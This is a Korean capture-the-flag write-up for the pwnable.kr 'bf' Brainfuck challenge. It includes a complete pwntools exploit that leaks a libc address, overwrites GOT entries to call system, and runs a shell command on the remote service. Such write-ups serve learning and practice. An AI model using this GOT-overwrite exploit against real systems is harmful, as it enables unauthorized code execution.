







# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**




# **Write-Up**

bf바이너리 파일의 정보를 확인하면 PIE가 존재하지 않아 전역 변수와 사용자 정의 함수의 주소가 변경되지 않는다.

```sh
root@ubuntu:~# checksec bf
[*] '/root/bf'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

bf_libc.so는 다음과 같다.

```sh
root@ubuntu:~# checksec bf_libc.so
[*] '/root/bf_libc.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

공유라이브러리와 실행파일은 32bit이므로 ida 32bit로 열자.



do_brainfuck함수를 살펴보자.

    1. 43 (+)이 들어오면 p가 가르키는 주소의 값을 증가시킨다.
    2. 44 (,)가 들어오면 1byte입력받아 p에 저장한다.
    3. 45 (-)가 들어오면 p가 가르키는 주소의 값을 감소시킨다.
    4. 46 (.)이 들어오면 p의 값을 1byte 출력한다.
    5. 60 (<)이 들어오면 p의 값을 감소 시킨다.
    6. 62 (>)가 들어오면 p의 값을 증가 시킨다.



p는 tape의 주소가 들어간다.


즉, p의 초기 값은 tape의 주소이고, 이는 0x0804A0A0이다.



bf바이너리 파일과 bf_libc.so 공유 라이브러리 파일에는 flag를 출력하는 로직이 없기 때문에, system함수를 호출해야 할 것 같다.

또한 bf에는 system함수가 없고 bf_libc.so에만 system함수가 존재한다.

따라서 bf_libc.so의 베이스 주소를 leak하여 system함수의 offset (0x3ADA0)만큼 더하면 system함수의 주소가 된다.

```sh
root@ubuntu:~# gdb ./bf_libc.so
... 생략 ...
(gdb) p system
$1 = {<text variable, no debug info>} 0x3ada0 <system>
```

또한 /bin/sh 혹은 /bin/bash등의 문자열이 존재하지 않으므로, system의 매개변수로 OS Command를 넣기 위한 gets함수를 사용하자.

```sh
root@ubuntu:~# gdb ./bf_libc.so
... 생략 ...
(gdb) p gets
$1 = {<text variable, no debug info>} 0x5f3e0 <gets>
```

main함수에는 stdin, stdout, memset, fgets등의 함수들이 존재한다.



먼저 p의 값은 tape의 주소이므로 0x0804A0A0이 되고, fgets의 got 주소의 차이만큼 연산하여 맞추기 위해 fgets의 got 주소를 알아내자. (0x0904A010)


그리고 p의 값을 fgets의 주소로 맞추자.

```python
from pwn import *
context(arch='i386', os='linux')
e               = ELF("./bf")

tape_addr       = 0x0804A0A0
fgets_got_addr  = e.got['fgets']

payload     = ''
payload     += '<'* (tape_addr - fgets_got_addr)
print(payload + '.')

[Output]
... 생략 ...
<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<.
```

case 46에 break를 걸고 p의 값을 확인해보면 fgets got주소가 되었음을 확인할 수 있다.



그리고 이 주소는 bf_libc.so로부터 메모리에 매핑한 fgets의 주소이다.



즉, "." (출력)과 ">" (값 증가)를 통해 fgets의 메모리 주소를 구할 수 있고, fgets의 상대 주소를 빼면 bf_libc.so의 베이스 주소를 구할 수 있다.

fgets의 상대 주소는 0x5E150이다.

```python
root@ubuntu:~# gdb ./bf_libc.so
... 생략 ...
(gdb) p fgets
$1 = {<text variable, no debug info>} 0x5e150 <fgets>
```

따라서 exploit코드는 다음과 같다.

```python
from pwn import *

#context.log_level = 'debug'
context(arch='i386', os='linux')
r       = remote('pwnable.kr', 9001)
e       = ELF("./bf")
l       = ELF("./bf_libc.so")

fgets_got_addr  = e.got['fgets']
memset_got_addr = e.got['memset']
putchar_got_addr= e.got['putchar']
main_addr       = 0x08048671
tape_addr       = 0x0804A0A0

fgets_virtual_addr  = l.symbols['fgets']
gets_virtual_addr   = l.symbols['gets']
system_virtual_addr = l.symbols['system']

payload     = ''
payload     += '<' * (tape_addr - fgets_got_addr) # p의 값을 fgets의 got주소로 변경한다.
payload     += '.>' * 4 # p의 값을 출력하고 +1 증가시켜 fgets의 메모리 주소를 leak한다.
payload     += '<' * 4 # p의 값을 다시 4 감소 시켜 fgets의 got주소로 맞춘다.
payload     += ',>' * 4 # fgets의 got주소를 system함수로 overwrite하기 위해 입력받는다.
payload     += '<' * 4 # 원래 fgets의 got주소로 다시 맞춘다.

payload     += '>' * (memset_got_addr - fgets_got_addr) # p의 값을 memset의 got주소로 변경한다.
payload     += ',>' * 4 # memset의 got주소를 system함수로 overwrite하기 위해 입력받는다.
payload     += '<' * 4 # 원래 memset의 got주소로 다시 맞춘다.

payload     += ">" * (putchar_got_addr - memset_got_addr) # p의 값을 putchar의 got주소로 변경한다.
payload     += ",>" * 4 # putchar의 got주소를 main함수로 overwrite하기 위해 입력받는다.

payload     += "." # putchar를 호출한다.

r.recvuntil("]\n")
r.sendline(payload)

fgets_real_addr = b''
for i in range(4): fgets_real_addr += r.recv(1)

libc_base_addr  = u32(fgets_real_addr) - fgets_virtual_addr
gets_real_addr  = libc_base_addr + gets_virtual_addr
system_real_addr= libc_base_addr + system_virtual_addr

log.info("libc base\t: {}".format(hex(libc_base_addr)))
log.info("gets base\t: {}".format(hex(gets_real_addr)))
log.info("system base\t: {}".format(hex(system_real_addr)))

r.send(p32(system_real_addr))
r.send(p32(gets_real_addr))
r.send(p32(main_addr))
r.recvuntil("]\n")
r.sendline('/bin/sh -c "cat flag"')
print(r.recvline().decode())

[Output]
[x] Opening connection to pwnable.kr on port 9001
[x] Opening connection to pwnable.kr on port 9001: Trying 128.61.240.205
[+] Opening connection to pwnable.kr on port 9001: Done
[*] 'C:\\Users\\admin\\Downloads\\bf'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] 'C:\\Users\\admin\\Downloads\\bf_libc.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] libc base   : 0xf7577010
[*] gets base   : 0xf75d63f0
[*] system base : 0xf75b1db0
BrainFuck? what a weird language..

[*] Closed connection to pwnable.kr port 9001
```


# **FLAG**

**BrainFuck? what a weird language..**